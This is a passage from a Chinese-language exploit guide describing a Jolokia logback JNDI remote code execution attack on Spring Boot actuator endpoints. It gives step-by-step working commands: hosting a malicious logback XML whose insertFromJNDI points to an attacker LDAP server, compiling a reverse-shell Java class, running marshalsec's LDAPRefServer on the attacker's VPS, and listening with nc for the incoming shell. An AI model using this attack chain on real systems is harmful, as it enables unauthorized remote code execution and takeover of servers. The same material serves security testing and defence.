 #### 0x04：jolokia logback JNDI RCE

**利用条件：**

* 目标网站存在 `/jolokia` 或 `/actuator/jolokia` 接口
* 目标使用了 `jolokia-core` 依赖（版本要求暂未知）并且环境中存在相关 MBean
* 目标可以请求攻击者的 HTTP 服务器（请求可出外网）
* 普通 JNDI 注入受目标 JDK 版本影响，jdk < 6u201/7u191/8u182/11.0.1(LDAP)，但相关环境可绕过

**利用方法：**

**步骤一：查看已存在的 MBeans**

访问 `/jolokia/list` 接口，查看是否存在 `ch.qos.logback.classic.jmx.JMXConfigurator` 和 `reloadByURL` 关键词。

**步骤二：托管 xml 文件**

在自己控制的 vps 机器上开启一个简单 HTTP 服务器，端口尽量使用常见 HTTP 服务端口（80、443）

```
# 使用 python 快速开启 http server

python2 -m SimpleHTTPServer 80
python3 -m http.server 80
```

在根目录放置以 `xml` 结尾的 `example.xml` 文件，内容如下：

```
<configuration>
  <insertFromJNDI env-entry-name="ldap://your-vps-ip:1389/JNDIObject" as="appName" />
</configuration>
```

**步骤三：准备要执行的 Java 代码**

编写优化过后的用来反弹 shell 的 [Java 示例代码](https://raw.githubusercontent.com/LandGrey/SpringBootVulExploit/master/codebase/JNDIObject.java) `JNDIObject.java`，

使用兼容低版本 jdk 的方式编译：

```
javac -source 1.5 -target 1.5 JNDIObject.java
```

然后将生成的 `JNDIObject.class` 文件拷贝到 **步骤二** 中的网站根目录。

**步骤四：架设恶意 ldap 服务**

下载 [marshalsec](https://github.com/mbechler/marshalsec) ，使用下面命令架设对应的 ldap 服务：

```
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer http://your-vps-ip:80/#JNDIObject 1389
```

**步骤五：监听反弹 shell 的端口**

一般使用 nc 监听端口，等待反弹 shell

```
nc -lv 443
```
